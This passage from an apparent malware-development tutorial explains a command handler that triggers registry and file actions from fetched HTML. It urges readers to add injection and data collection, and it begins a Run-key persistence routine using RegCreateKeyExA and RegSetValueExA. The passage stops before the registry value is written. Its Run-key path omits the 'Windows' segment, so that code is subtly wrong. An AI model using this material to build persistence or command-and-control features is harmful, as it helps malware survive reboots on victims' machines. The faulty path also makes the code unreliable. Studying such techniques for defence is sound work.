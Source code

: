 This function will take `html` variable which is the date we have fetched, and will do some filtering in order to find the commands:

- prs: If it was found the function **RegAct()** will be executed.
- drp: If found the function **FileAct()** will be executed.

The function `wcsstr()` is a wide-character version of the `strstr()` function in C. It is used to find the first occurrence of a wide-character substring within a wide-character string.

We can extend this by adding more than two functions and more commands to do for example:

1. Process Enumeration
2. Injection
3. Collect data about the machine

And more, I highly encourage you to try to extend the functionality.

Now let's write **RegAct()** and **FileAct()** functions.

## Persistence in registry

A very common and simple way of persistence that is widely used between malware authors. Adding an entry to `SOFTWARE\Microsoft\CurrentVersion\Run`,  Malware ensures that it will be executed every time the system boots up, thus achieving persistence across reboots.

We can start using `RegCreateKeyExA` API first

```cpp
LSTATUS RegCreateKeyExA(
  [in]            HKEY                        hKey,
  [in]            LPCSTR                      lpSubKey,
                  DWORD                       Reserved,
  [in, optional]  LPSTR                       lpClass,
  [in]            DWORD                       dwOptions,
  [in]            REGSAM                      samDesired,
  [in, optional]  const LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [out]           PHKEY                       phkResult,
  [out, optional] LPDWORD                     lpdwDisposition
);
```
This function Creates the specified registry key. If the key already exists, the function opens it.

In this case we want to open `SOFTWARE\\Microsoft\\CurrentVersion\\Run`, So we can use it as follows:

```cpp
HKEY hKey;
const char* subKey = "SOFTWARE\\Microsoft\\CurrentVersion\\Run";
LONG result = RegCreateKeyExA(HKEY_LOCAL_MACHINE, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey, NULL);
```

Nexe we use `RegSetValueExA`

```cpp
LSTATUS RegSetValueExA(
  [in]           HKEY       hKey,
  [in, optional] LPCSTR     lpValueName,
                 DWORD      Reserved,
  [in]           DWORD      dwType,
  [in]           const BYTE *lpData,
  [in]           DWORD      cbData
);
```
